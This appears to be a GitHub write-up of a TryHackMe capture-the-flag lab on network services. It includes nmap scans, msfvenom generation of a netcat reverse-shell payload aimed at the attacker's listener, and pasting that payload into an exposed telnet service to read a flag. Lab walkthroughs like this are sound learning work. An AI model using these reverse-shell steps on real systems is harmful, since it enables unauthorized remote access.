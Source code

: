 # Documentation: TryHackMe Cyber Defense #02

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenges
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access the target's assets by exploiting vulnerable services to exfiltrate valuable data

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**:
    - Port Scanning:
    	- `nmap -A 10.10.177.199`
         - Shows that the top 1000 ports are not open
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/26a37547-6cf4-4d6c-9011-fb3af482edcd)
      - `nmap -A -p 8000-9000 10.10.177.199` -vv
         - Scanned ports between 8000-9000 and discovered an open port 8012/tcp
       ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/4ce2baa3-4768-4b60-8d4b-9ac6d15922f9)

  - **Findings**:
	The open port is 8012
    	A possible username might be Skidy
        - Service might be a backdoor 

### 3.3 Exploitation
- **Vulnerability Identification**: Telnet vulnerability
  - **Techniques Used**:  Exploit using netcat reverse shell payload in the telnet server

- **Exploitation Process**:
  
- Enter `telnet 10.10.177.199 8012`  now you can connect to the telnet server using the discovered port 8012
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/e6bcd72f-8053-46dc-837c-6ca396e0d149)

- Enter `msfvenom -p cmd/unix/reverse_netcat lhost=10.17.64.194 lport=4444 R` to generate a reverse shell payload using msfvenom  
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/56f3c19c-bd00-4d59-98f6-7f47da11b424)

- Enter `nc -lvp 4444` to start netcat lister to listen for inbound connection and see data
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/cef1919e-40fc-4e27-b83b-7e1cbd3e0f18)

- Copy the payload into the telnet server CLI and press enter
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/09af501b-3792-4d1d-9fa7-0dc51f9f299d)

- Go to the netcat lister and enter `ls` it will show the file flag.txt
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/bad9f0bf-77d9-4770-90d3-5240f7384d8a)

- Enter `cat flag.txt` to capture the flag
  - ![image](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge-2/assets/110463619/d4896955-1e10-4cb3-9576-65c33d4684c5)


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

